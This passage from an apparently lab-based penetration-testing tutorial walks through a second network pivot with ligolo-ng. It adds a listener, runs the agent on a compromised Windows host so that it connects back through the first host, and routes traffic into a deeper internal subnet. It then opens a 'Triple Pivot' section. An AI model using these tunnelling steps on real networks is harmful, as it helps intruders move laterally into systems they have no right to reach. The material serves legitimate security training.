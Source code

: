 Next we're going to add a listener on port 11601 in the session we already have running and redirect it to port 11601 on our own machine.

This will allow us to use the agent on the newly compromised host in order to reach back to ligolo-ng and obtain a new session, this time on the Windows host that will let us reach further into the network.

```shell
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
```

Then we can run the agent with the following command:

```shell
# We use the IP of the compromised web server using our newly added listener.
./agent.exe -connect 172.16.5.15:11601 -ignore-cert
```

![](12.png)

Once again, ligolo-ng will tell us that an agent has joined. We can use the `session` command as before to switch to the new session and then `start` to begin a tunnel over that connection instead.

We'll get a prompt like this:

```
Tunnel already running, switch from <first agent> to <second agent>? Y/N
```

Once we type `Y`, the new tunnel will start.

We can add the route to the network we want to access as before.

```shell
ip route add 172.16.6.0/24 dev ligolo
```

Just like that, we're good to go.

### Triple Pivot

At this point, doing further pivots is a repeat of the steps we used for our second pivot. I'll go over it briefly only covering commands we'll run and continuing further with our scenario.

![](13.png)
